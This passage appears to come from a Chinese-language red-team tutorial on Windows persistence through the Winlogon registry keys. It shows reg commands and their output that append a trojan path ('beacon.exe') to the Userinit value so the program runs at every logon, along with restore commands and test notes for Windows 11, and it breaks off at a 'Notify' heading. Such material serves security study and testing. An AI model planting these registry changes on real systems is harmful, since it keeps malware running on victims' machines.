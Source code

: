 恢复默认值。

```bash
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v "Shell" /d "explorer.exe" /f
```

PS：Windows 11 H2 (22621.1635) HKCU 和 HKLM 都成功执行。

2.Userinit

默认值

```bash
PS C:\Users\gbb> reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon
    Userinit    REG_SZ    C:\windows\system32\userinit.exe,
```

直接修改值，在逗号后面新增木马绝对路径，放 C:\\windows\\system32 下或是其他位置都行。

```bash
PS C:\Users\123> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d "C:\WIndows\System32\userinit.exe, C:\Users\123\Desktop\beacon.exe" /f
操作成功完成。
PS C:\Users\123> reg query  "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
    Userinit    REG_SZ    C:\WIndows\System32\userinit.exe, C:\Users\123\Desktop\beacon.exe
```

重启登录即生效，直接作为 winlogon 子进程运行。

![Userinit 进程运行状态.png](assets/1708583418-94978a208916633ea4f44e24da0b3cd2.png)

恢复默认值。

```bash
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v "Userinit" /t REG_SZ /d "C:\Windows\System32\userinit.exe" /f
```

PS：Windows 11 H2 (22621.1635) HKCU 没有执行。

3.Notify
